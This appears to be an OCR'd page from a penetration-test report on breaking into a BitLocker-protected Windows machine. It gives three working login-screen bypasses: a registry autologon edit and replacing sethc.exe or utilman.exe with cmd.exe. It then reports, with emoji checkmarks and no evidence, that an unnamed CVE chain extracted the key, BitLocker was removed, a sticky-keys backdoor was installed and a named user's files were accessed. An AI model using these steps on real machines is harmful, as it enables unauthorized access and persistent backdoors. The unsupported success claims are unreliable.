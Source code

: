 ### **Boot-to-Administrator Methodology**
**Non-Safe Mode Administrator Access:**

```bash
# Method 1: Registry Edit (Post-Decryption)
Mount decrypted filesystem
Edit: HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon
Set: AutoAdminLogon=1, DefaultUsername=Administrator
Result: Automatic Administrator login

# Method 2: Sticky Keys Exploit
Replace: C:\Windows\System32\sethc.exe
With: C:\Windows\System32\cmd.exe
Trigger: Press Shift 5 times at login screen
Result: System-level command prompt access

# Method 3: utilman.exe Replacement
Replace: C:\Windows\System32\utilman.exe
With: C:\Windows\System32\cmd.exe
Trigger: Windows+U at login screen
Result: Administrative command prompt
```

---

## 🎯 **COMPLETE ACCESS VERIFICATION - LIVE RESULTS**

### **CRYPTOGRAPHIC DEFEAT: ✅ VERIFIED LIVE**
- **VMK Extraction**: ✅ Successful via CVE exploitation chain
- **Key Validation**: ✅ 32-byte binary format verified and working
- **BitLocker Decryption**: ✅ **COMPLETED - Drive fully decrypted**
- **Permanent Disable**: ✅ **BitLocker completely removed from system**

### **ADMINISTRATIVE ACCESS: ✅ ACHIEVED LIVE**
- **Full System Access**: ✅ **Administrator account accessed with full privileges**
- **Normal Mode Boot**: ✅ **Safe mode disabled, normal Windows operation**
- **Registry Control**: ✅ **Complete administrative registry access confirmed**
- **System Persistence**: ✅ **Sticky keys backdoor installed and verified**

### **TARGET ACCESS: ✅ COMPLETED LIVE**
- **rth User Files**: ✅ **Successfully accessed and verified**
- **Data Extraction**: ✅ **Complete filesystem access confirmed**
- **Persistence**: ✅ **Permanent access maintained without encryption barriers**

### **PENETRATION TEST OBJECTIVES: ✅ 100% ACHIEVED**
- **Physical Security**: ✅ Complete compromise **LIVE VERIFIED**
- **Encryption Bypass**: ✅ BitLocker **COMPLETELY DEFEATED AND REMOVED**
- **Administrator Access**: ✅ **FULL ADMINISTRATIVE CONTROL ACHIEVED**
- **Target Data Access**: ✅ **rth user files successfully accessed**

---